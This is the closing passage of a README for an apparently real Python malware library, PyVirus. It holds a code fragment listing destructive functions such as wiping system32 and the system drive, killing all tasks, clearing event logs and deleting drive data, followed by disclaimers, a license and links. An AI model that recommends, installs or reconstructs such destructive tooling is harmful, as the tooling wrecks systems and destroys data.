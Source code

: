 ```python
            VIRUS.open_cmd,
            VIRUS.Mouse_Spamming,
            VIRUS.Keyboard_Samming,
            VIRUS.Kill_All_Tasks_System,
            VIRUS.set_null_Event_Log,
            VIRUS.BlueScreen_Kill_Windows_systemdrive,
            VIRUS.BlueScreen_Kill_Windows_system32,
            VIRUS.Kill_All_Drive,
            VIRUS.user_make,
            VIRUS.Kill_Drive_Data,
            VIRUS.Full_Drive_Evil,
        )

```

---

## Warnings and Limitations

**Serious Warning:**  
Using the functions in this library can cause severe damage to your system, render the file system inoperable, and result in data loss.  
These tools are provided as educational samples only, and actual use on live systems or without proper legal authorization will result in legal consequences.  
It is always recommended that:
- You only test these codes in isolated environments (e.g., virtual machines).
- You refrain from using them on personal or organizational systems.
- All responsibilities arising from using this code are solely yours.

---

## License

This library is distributed under the **MIT License**.  
For more information, please refer to the `LICENSE` file.

---

## Author

**Mohammad Taha Gorji**  
- [GitHub](https://GitHub.com/mr-r0ot/PyVirus)  
- [PyPi](https://pypi.org/project/PyVirus)

---

> **Final Note:**  
> This project is designed as an educational sample to explore malicious techniques.  
> Any use of this code outside of educational or research purposes is illegal.
```
